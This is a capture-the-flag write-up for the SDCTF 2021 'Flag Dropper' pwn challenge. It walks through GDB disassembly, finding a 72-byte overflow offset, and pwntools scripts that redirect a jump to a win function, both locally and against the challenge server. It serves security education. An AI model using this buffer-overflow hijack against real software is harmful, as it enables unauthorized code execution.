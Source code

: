 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | Flag Dropper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: Flag Dropper
tags: "pwn, twh"
date: 2021-05-10T00:00:00+00:00
last_update: 2021-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2021</h1>

## Flag Dropper
> Solved by Taz and thewhiteh4t

* After loading the binary in `GDB` we can list the functions
```
info functions
```

![](https://i.imgur.com/rbChpV2.png)

* here we can see that we have a `win` function
* win function disassembled :

```bash
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004005da <+0>:	mov    eax,0x0
   0x00000000004005df <+5>:	lea    rsi,ds:0x60109d
   0x00000000004005e7 <+13>:	lea    rdi,ds:0x601094
   0x00000000004005ef <+21>:	call   0x400440 <fopen@plt>
   0x00000000004005f4 <+26>:	mov    rdx,rax
   0x00000000004005f7 <+29>:	mov    eax,0x0
   0x00000000004005fc <+34>:	movabs rdi,0x601124
   0x0000000000400606 <+44>:	mov    esi,0x16
   0x000000000040060b <+49>:	call   0x400430 <fgets@plt>
   0x0000000000400610 <+54>:	mov    edi,0x1
   0x0000000000400615 <+59>:	mov    eax,0x1
   0x000000000040061a <+64>:	mov    edx,0x16
   0x000000000040061f <+69>:	syscall
   0x0000000000400621 <+71>:	jmp    0x4005d0 <_exit>
   0x0000000000400623 <+73>:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x000000000040062d <+83>:	nop    DWORD PTR [rax]
End of assembler dump.
```

* it is opening and reading some file
* now lets run the binary in GDB with a breakpoint in main

![](https://i.imgur.com/MMVX7lC.png)

* after some instructions we can see **flag.txt**
* I created a file named **flag.txt** with a fake flag inside it
* now I tried to execute the `win` function I found earlier

![](https://i.imgur.com/Zb62G51.png)

* great so win function is opening **flag.txt** and printing the flag
* now I looked for something which can execute the win function

![](https://i.imgur.com/0yJjSWN.png)

* we can see in the `code` section :

```
<main+142>: jmp QWORD PTR [rax]
```

* `jmp` is used for changing the flow of the programing , that means if we can provide the start address of `win` function to `jmp` it will execute it for us

* I found the offset at `73`

![](https://i.imgur.com/bovjmMe.png)

* Now lets find the start address of `win` function

```
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x4005da <win>
```

* Testing the offset in GDB :

```bash
python -c "print('A' * 73 + 'BBBBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```

![](https://i.imgur.com/6hrG88c.png)

* we have a small problem here, it seems like one of the A is extra so the offset should be 72 instead of 73

* Testing the new offset using pwntools with start address of `win` function :

```python
#!usr/bin/env python3

from pwn import *

offset = 72
addr = 0x4005da # Start address of win function

junk = b'A' * 72
le_num = p64(addr) # converted to little endian
buffer = junk + le_num 

elf = ELF('./flagDropper')
p = elf.process()
p.send(buffer)
out = p.recvall()
print(out)

```

* the script above runs the binary locally and sends our payload, here is the output :

![](https://i.imgur.com/fc0v22d.png)

* It works!, now I created a new script to send the payload on the server

```python
#!/usr/bin/env python3
    
from pwn import *
    
host = 'dropper.sdc.tf'
port = 1337
offset = 72
addr = 0x4005da # address of win function
    
junk = b'A' * offset
le_num = p64(addr)
    
buffer = junk + le_num
conn = remote(host, port)
conn.send(buffer)
flag = conn.recvuntil('}').decode()
print(f'\nFLAG : {flag}\n')
conn.close()
```

**OUTPUT :**

![](https://i.imgur.com/pu5NYoX.png)

